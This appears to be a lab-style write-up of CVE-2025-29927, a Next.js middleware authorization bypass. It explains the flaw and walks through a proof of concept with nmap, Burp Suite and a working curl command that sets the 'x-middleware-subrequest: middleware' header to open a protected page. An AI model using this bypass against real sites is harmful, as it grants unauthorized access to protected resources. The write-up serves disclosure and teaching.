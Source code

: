 # OVERVIEW 
CVE-2025-29927 is a critical security vulnerability affecting Next.js, a popular open-source React framework used for building full-stack web applications. This vulnerability, disclosed on March 21, 2025, allows attackers to bypass authorization checks enforced through Next.js middleware, potentially granting unauthorized access to protected resources. It has been assigned a CVSS score of 9.1, indicating its critical severity due to its ease of exploitation and significant impact.



The issue stems from a flaw in how Next.js handles the x-middleware-subrequest HTTP header, which is intended to prevent infinite loops in middleware execution. Middleware in Next.js is a feature that intercepts incoming requests to perform tasks like authentication, authorization, or routing before they reach the application’s routes. However, by crafting a request with a specific value in the x-middleware-subrequest header, an attacker can skip middleware execution entirely, bypassing critical security checks such as authentication or session validation.


# POC
Kindly note that this exploit falls under the category of HTTP-Header vulnerability.

The machine was scanned using `nmap -T4 -sV IP`, and it returned two ports ( 22 and 3000)

![image](https://github.com/user-attachments/assets/39b2cf45-2f31-4b8a-a165-f98856a1e163)


Trying to see what service is running on port 3000, I ran " curl HTTP://IP" and got an HTTP response, which means the port is running an HTTP service
![image](https://github.com/user-attachments/assets/d3d22e83-cd22-4515-a5ac-d920427b0e96)

The page was then accessed via a browser
![image](https://github.com/user-attachments/assets/9cd55715-e9a6-499b-87a0-6cc5f678d34b)


The `Protected page` kept reverting to the homepage each time I tried to access it because it needs a form of authentication before I'd be allowed to view it. The "Protected page" request was intercepted on burpsuite
![image](https://github.com/user-attachments/assets/841a52b7-70a1-4a35-9aa5-cf7afe6a364a)

Then it was modified with the addition of `x-middleware-subrequest: middleware`
![image](https://github.com/user-attachments/assets/7bdd9387-80d2-44ab-960d-546f59f2881e)


This then opened the "protected" page....
![Screenshot from 2025-03-31 12-38-16](https://github.com/user-attachments/assets/fbd3be11-ef21-4a6d-be86-be811f771e93)


__Alternatively, this can be done without Burpsuite__

This would be done by using __CURL__ to add an extra header ( x-middleware-subrequest: middleware) to the HTTP request of the "protected" page. The command below will do the trick
    
 


  The picture below shows the blan response gotten from accessing the "protected" page using the `CURL` command.
  
    http://IP/protected

![image](https://github.com/user-attachments/assets/1f9ffd76-5280-4c45-8335-cb95f04c9a27)

The '/' in the response indicatess Homepage


The picture below shows the "protected" page being opened after running the `CURL` command withe the "x-middleware-subrequest" header

     curl -H "x-middleware-subrequest: middleware" http://IP:3000/protected
![Screenshot from 2025-03-31 13-00-55](https://github.com/user-attachments/assets/0aec4084-c29d-4307-9b1b-41999db96ace)



